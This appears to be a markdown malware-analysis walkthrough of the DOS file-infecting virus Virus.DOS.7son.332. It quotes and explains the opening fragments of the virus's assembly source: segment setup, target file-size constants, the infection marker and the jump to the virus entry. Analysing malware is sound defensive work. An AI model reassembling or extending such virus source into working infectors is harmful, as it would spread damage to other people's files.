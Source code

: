
# Analysis of Virus.DOS.7son.332

We will analyze the source code of the Virus.DOS.7son.332, here is the detail.

* [COM Version](https://www.virustotal.com/gui/file/c62b56f3e39ee54320b054607659244807b2830f5cef0d40eb30da5666aa86d6/community)
* [EXE Version](https://www.virustotal.com/gui/file/bde7361691ac38329375e9840d3c9e98d5c2a7292d988141017fc7de04a621a7/community)


## Segments and Memory Configuration

```assembly
cseg            segment
                assume  cs:cseg,ds:cseg,es:cseg,ss:cseg

                .RADIX  16
```
- Defines a code segment named `cseg`.
- `assume` associates the segment registers CS, DS, ES, and SS with this segment.
- `.RADIX 16` indicates that literal numbers will be interpreted in hexadecimal.

## Variables and Constants

```assembly
FILELEN         equ     end - start
MINTARGET       equ     1000d
MAXTARGET       equ     -(FILELEN+40)
```
- `FILELEN` is the length of the program, calculated as the difference between the labels `end` and `start`.
- `MINTARGET` and `MAXTARGET` are constants defining the target file sizes.

## Program Start

```assembly
                org     100

begin:          db      4Dh                     ;virus mark
                db      0E9h, 4, 0              ;jump to virus entry
```
- The program starts at address 100h.
- Inserts a virus marker (`4Dh`).
- Inserts a jump instruction (`0E9h`) to the virus entry point.

## Virus Start

```assembly
start:          db      0CDh,  20h, 0, 0

                cld
                mov     si,0100h
                push    si                      ;push new IP on stack
                mov     di,si
                add     si,[si+2]               ;si -> start
```
- Begins the virus code.
- Initializes registers and prepares for the following code.

